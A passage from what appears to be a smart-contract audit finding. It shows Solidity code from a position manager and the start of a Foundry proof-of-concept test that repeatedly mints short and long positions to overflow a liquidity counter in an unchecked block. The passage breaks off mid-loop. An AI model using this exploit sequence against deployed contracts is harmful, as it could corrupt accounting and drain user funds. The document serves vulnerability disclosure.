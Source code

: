 ```solidity
                if (!isBurn) {
                    // we can't remove more liquidity than we add in the first place, so this can't overflow
                    unchecked {
                        removedLiquidity += chunkLiquidity;
                    }
                }
            }

            // update the starting liquidity for this position for next time around
            s_accountLiquidity[positionKey] = LeftRightUnsigned
                .wrap(0)
                .toLeftSlot(removedLiquidity)
                .toRightSlot(updatedLiquidity);
        }

        ...
    }
```

### Proof of Concept

Please add the following test in `test\foundry\core\SemiFungiblePositionManager.t.sol`. This test will pass to demonstrate the described scenario.

```solidity
    function test_removedLiquidityOverflow() public {
        _initPool(0);

        _cacheWorldState(USDC_WETH_30);

        sfpm.initializeAMMPool(token0, token1, fee);

        int24 width = 4090;
        int24 strike = 0;

        populatePositionData(width, strike, 0, 0);

        uint128 psnSize = type(uint128).max / 70;

        TokenId shortTokenId = TokenId.wrap(0).addPoolId(poolId).addLeg(
            0,
            1,
            isWETH,
            0,
            0,
            0,
            strike,
            width
        );

        TokenId longTokenId = TokenId.wrap(0).addPoolId(poolId).addLeg(
            0,
            1,
            isWETH,
            1,
            0,
            0,
            strike,
            width
        );

        // repeatedly mint contracts of the short and long positions
        for (uint256 i = 0; i < 32311; i++) {
```